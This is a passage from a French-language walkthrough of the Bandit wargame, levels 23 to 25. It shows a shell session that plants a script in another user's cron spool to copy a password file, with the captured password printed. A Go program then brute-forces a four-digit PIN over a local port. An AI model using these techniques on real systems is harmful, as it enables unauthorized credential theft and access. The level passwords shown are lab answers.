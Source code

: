 
	bandit23@melinda:~$ mkdir /tmp/getmdp
	bandit23@melinda:~$ cd /tmp/getmdp
	bandit23@melinda:/tmp/getmdp$ echo "cat /etc/bandit_pass/bandit24 >> /tmp/getmdp/mdp" >> script.sh
	bandit23@melinda:/tmp/getmdp$ chmod -R 777 ./
	bandit23@melinda:/tmp/getmdp$ cp /tmp/getmdp/script.sh /var/spool/bandit24/
	bandit23@melinda:/tmp/getmdp$ ls    
	mdp  script.sh
	bandit23@melinda:/tmp/getmdp$ cat mdp
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ


#### Niveau 24 à 25

Il suffit de faire un petit peu de bruteforce sur le port demandé. Chose que j'ai faite à l'aide d'un programme en Go.

    package main

    import (
        "bufio"
        "net"
        "fmt"
        "strings"
    )

    const password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

    func main(){
        conn, err := net.Dial("tcp", "localhost:30002")
        if err != nil {
                fmt.Println("Error when establishing connection")
        }
        fmt.Println("Connection established")

        r := bufio.NewReader(conn)
        welcome, _ := r.ReadString('\n')
        fmt.Print(welcome)

        for i := 0; i < 10000; i++{
                fmt.Fprintf(conn, fmt.Sprintf("%s %04d\n", password, i))
                status, _ := r.ReadString('\n')
                if strings.Contains(status, "Wrong") == false {
                        fmt.Println(fmt.Sprintf("Correct code pin: %04d", i))

                        fmt.Print("Response: ")
                        for r.Buffered() > 0 {
                                status, _ = r.ReadString('\n')
                                fmt.Print(status)
                        }
                        break
                }
        }

        conn.Close()
        fmt.Println("Connection closed")
    }

